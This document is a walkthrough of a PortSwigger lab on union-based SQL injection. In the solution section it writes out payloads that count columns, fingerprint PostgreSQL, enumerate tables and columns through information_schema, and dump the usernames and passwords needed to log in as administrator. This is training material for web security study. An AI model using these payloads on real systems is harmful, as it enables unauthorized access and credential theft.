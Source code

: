 # SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases - Portswigger Lab

## Challenge Description

* **Category**: SQL Injection
* **Description**: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.
* **Link Resource**: `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle`

## Solution

### Step 1: Looking for SQL Injection vulnerability point

* When we start the lab, we are brought to a shopping page website. We will looking for the SQL injection point which they are presented at product category filters
* We can choose any filter, and then we will get into Burp.
* Get to the target tab and send the filtered request to the repeater.
* We will add a single quote `'` to the end of the filter and sending the request. This should be triggered a `500 Internal Server Error`


![verifypoint](../../assets/portswigger1-1.png)

### Step 2 : Search for the exact number of columns and its data types

* In the repeater, we can try use this URL encoded payload '+ORDER+BY+1+--` so the filter will get like this

```
GET /filter?category=Pets'+ORDER+BY+1+-- HTTP/2
```

* To know exactly how many is the columns, we can change the `1` into the numbers that we wanted.
* If the request return `200 OK` then there is the define column, we will search a condition to make it response as `500 Internal Server Error`
* At the `3`, it return `500`, indicating that there are only 2 columns.
* We need to make sure is the data types are `text` by using the below payload

```
'+UNION+SELECT+'King','Europe'--
```

[datatype](../../assets/portswigger1-2.png)

* It is verified by the result that there are 2 columns and the data type is `text`

### Step 3 : Find the DB used by the system

* To verify the DB used, we can open the given [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) by PortSwigger.
* The challenge title shows that the DB is NOT AN ORACLE DB. So, we will try to check the other DB.
* Most likely, PostgreSQL is used by many site so we'll try the first shot there by using this payload

```
' UNION SELECT version(),'Europe'--
```

[dbversion](../../assets/portswigger1-3.png)

* The result showing `200` which mean it is a PostgreSQL Database.

### Step 4 : Find the table name in the Database

* Since we are facing a PostgreSQL DB, we will adjust our `UNION SELECT` queries, we'll not use `SELECT * (all)` and will specify the 2 columns we are looking for.
* Based on the given cheatsheet, we'll list the tables that exist in the database, and the columns that those tables contain by using the below payload

```
'+UNION+SELECT+table_name,'Europe'+FROM+information_schema.tables--
```

* The relevant table we're looking for will begin with `users_`

### Step 5 : Find the relevant column names in the table

* From the cheatsheet, we will use the second query for this DB

```
'+UNION+SELECT+column_name,'Europe'+FROM+information_schema.columns+WHERE+table_name+%3d+'users_ymwpjk'--
```

* The given payload will response with providing all the columns names in the table
* The column names we are looking for is begin with `username_` and `password_`.

### Step 6 : Find `Administrator` Creds

* We will insert the column names and table name in to a casual `SELECT`.

```
'+UNION+SELECT+username_rexymr,+password_gbsdjs+FROM+users_ymwpjk--
```

* The query will provide a list of all username and password found in the table, look for `administrator`

[administrator](../../assets/portsiwgger1-5.png)

### Step 7 : Login as `Administrator`

* Use the given credentials to login

## Result

We are able to log in as the administrator user

![Result](../../assets/portswigger1-6.png)

## Explanation

The vulnerability exploited in this lab is a **Union-based SQL Injection** in the product category filter. Because the application concatenates user input directly into SQL queries without sanitization or parameterization, we were able to inject payloads to determine the number of columns, confirm their data types, and identify the database engine as PostgreSQL. By unioning the target columns into the query, we extracted all user credentials, including the `administrator` account, and successfully logged in. This demonstrates a critical data exfiltration vulnerability that leads to full authentication bypass and complete compromise of the application.
